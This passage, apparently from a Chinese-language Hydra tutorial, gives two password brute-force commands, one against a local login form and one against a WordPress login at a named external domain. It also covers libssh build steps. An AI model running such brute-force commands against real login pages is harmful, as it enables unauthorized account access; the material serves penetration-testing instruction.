 实例1. 假设有一个密码登录表单，我们执行命令：

    
    
    # hydra -l admin -P pass.lst -o ok.lst -t 1 -f 127.0.0.1 http-post-form “/index.php:name=^USER^&pwd=^PASS^:<title>invalido</title>”

说明：admin是破解的用户名，pass.lst是密码字典，ok.lst是保存破解结果的文件，-t 是同时线程数为1，-f 是当破解了一个密码就停止，ip
是本地，就是破解目标ip，http-post-form表示破解是采用http 的post
方式提交的表单密码破解，中的内容是表示错误猜解的返回信息提示，可以自定义。

实例2. 爆破wordpress：

    
    
    # hydra -L user.txt -P /Users/hacked/Desktop/133232.txt -o /users/hacked/123.txt -t 10 -f www.sysshell.com http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:login_error"

### 五、常见问题

* * *

**1.运行hydra时可能会出现错误**

[ERROR] Compiled without LIBSSH v0.4.x support, module is not available!

原因：系统没有安装libssh库

解决方法：从 https://red.libssh.org/projects/libssh/files下载libssh-0.7.3.tar.xz，解压安装。

    
    
    # tar xf libssh-0.7.3.tar.xz
    
    # cd libssh-0.7.3
    
    # mkdir build
    
    # cd build
    
    # cmake -DCMAKE_INSTALL_PREFIX=/usr -DCMAKE_BUILD_TYPE=Debug -DWITH_SSH1=ON ..
    
    # make
    
    # make install
